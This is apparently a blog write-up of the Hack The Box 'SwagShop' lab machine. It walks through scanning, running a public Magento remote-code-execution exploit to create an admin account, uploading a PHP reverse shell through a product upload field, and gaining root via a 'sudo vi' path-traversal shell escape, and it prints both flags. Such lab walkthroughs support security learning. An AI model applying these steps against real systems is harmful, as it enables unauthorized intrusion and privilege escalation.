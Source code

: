 ```yaml
---
layout: post
author: msameer234
---
```

<br />
+=============+<br />
SCANNING<br />
+=============+<br />
 nmap 10.10.10.140<br />
	PORT   STATE SERVICE<br />
	22/tcp open  ssh<br />
	80/tcp open  http

+================+<br />
ENUMERATION<br />
+================+

 Wibsite hosted on port 80/http --- SwagShop -- Shoping Site<br />
	Using Magento CMS --- found it by wappalyzer.<br />
	<br />
	Found RCE of Magento: <br />
		command used: searchsploit Magento<br />
			Magento eCommerce - Remote Code Execution  <br />
			/usr/share/exploitdb/exploits/xml/webapps/37977.py<br />
	Copy the exploit and edit it, then set your target: <br />
		e.g. target = "http://10.10.10.140/index.php/"<br />
	and save it.<br />
	<br />
	Now execute it as:<br />
		python exploit.py<br />
		it creates an admin account with username "forme" and password "forme":<br />
		Now login at : http://10.10.10.140/index.php/admin -->> Found this by Dirbuster<br />
		I tried to upload php shell, but I couldn't.<br />
		Then I found a way to create a new product-- added an option that asks user to upload a file with extension .php<br />
	<br />
	Now make an order of the created product and upload the file php-reverse-shell.<br />
	And start multi-handler of uploaded shell on msfconsole<br />
<br />
	Here you can access your uploaded shell on server: <br />
		http://10.10.10.140/media/custom_options/order/p/h/<br />
		found media folder by dirbuster.. then did some search after uploading the shell..<br />
		Set up listener and get the reverse_shell.<br />
<br />
	Now navigate to /home/haris/<br />
<br />
	there is user.txt fie which contains user flag: a448877277e82f05e5ddf9f90aefbac8<br />
<br />
+=========================+<br />
PRIVILEGE-ESCALATION<br />
+=========================+<br />
<br />
Type Command:<br />
	sudo -l and hit enter<br />
Output:<br />
	Matching Defaults entries for www-data on swagshop:<br />
    		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin<br />
<br />
	User www-data may run the following commands on swagshop:<br />
    		(root) NOPASSWD: /usr/bin/vi /var/www/html/*<br />
<br />
	<br />
Here we found we can access all files from "/var/www/html/" directory and vi text editor from "/usr/bin/" directory with root privileges.<br />
<br />
lets create a tty first as it is not there:<br />
python3 is installed:<br />
the command is: <br />
	python3 -c 'import pty;pty.spawn("/bin/sh")'<br />
<br />
Now, lets edit any file from /var/www/html/ directory with vi using sudo:<br />
<br />
cd /home/haris<br />
<br />
sudo vi /var/www/html/../../../etc/sudoers<br />
<br />
Now to enter into Command Mode and execute the command /bin/sh type in    :!/bin/sh     and hit enter<br />
<br />
and we got root..<br />
<br />
Navigating to /root/ directory..<br />
cd /root<br />
cat root.txt<br />
c2b087d66e14a652a3b86a130ac56721<br />
<br />
   ___<br /> ___
 /| |/|\| |\<br />
/_| ´ |.` |_\           We are open! (Almost)<br />
  |   |.  |<br />
  |   |.  |         Join the beta HTB Swag Store!<br />
  |___|.__|       https://hackthebox.store/password<br />
<br />
                   PS: Use root flag as password!<br />
<br />
<br />
<br />
<br />
And we got flag in root.txt file: c2b087d66e14a652a3b86a130ac56721<br />
<br />
Finish..!!!<br />
<br />
<br /><br /><br />
